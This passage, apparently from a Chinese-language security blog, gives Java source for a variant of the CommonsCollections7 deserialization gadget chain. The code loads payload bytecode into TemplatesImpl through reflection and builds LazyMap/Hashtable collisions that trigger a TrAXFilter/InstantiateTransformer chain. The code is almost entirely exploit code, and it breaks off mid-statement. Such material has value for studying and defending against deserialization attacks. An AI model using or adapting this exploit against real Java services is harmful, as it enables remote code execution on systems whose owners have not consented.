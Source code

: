 ```
```

**CommonsCollections7-1.java(根据cc3特点生成衍生版1)：**

```
package CommonsCollections7;
import CommonsCollections4.payload;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;
public class exp1 `{`
    public static void main(String[] args) throws IOException, CannotCompileException, NotFoundException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException `{`
        //封装TemplatesImpl类
        TemplatesImpl tmp = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(payload.class));
        CtClass pay_class = pool.get(payload.class.getName());
        byte[] payCode = pay_class.toBytecode();
        Class clazz;
        clazz =Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        //存储payload字节码
        Field byteCode = clazz.getDeclaredField("_bytecodes");
        byteCode.setAccessible(true);
        byteCode.set(tmp,new byte[][]`{`payCode`}`);
        Field name  = clazz.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmp,"tr1ple");
        Transformer[] trans = new Transformer[]`{`
                null,
                null
        `}`;
        //封装chained转换链
        ChainedTransformer chain = new ChainedTransformer(trans);
        //构造两个hash值相同的lazymap
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        Map lazyMap1 = LazyMap.decorate(innerMap1,chain);
        lazyMap1.put("zZ",1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chain);
        lazyMap2.put("yy",1);
        Hashtable hashTable = new Hashtable();
        hashTable.put(lazyMap1,1);
        hashTable.put(lazyMap2,2);
        lazyMap2.remove("zZ");
        //因为构造exp过程也会调用lazymap.get，如果直接调用transform将报错，因此通过反射赋值
        Transformer[] trans1 = new Transformer[]`{`
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[]`{`Templates.class`}`,
                        new Object[]`{`tmp`}`
                )
```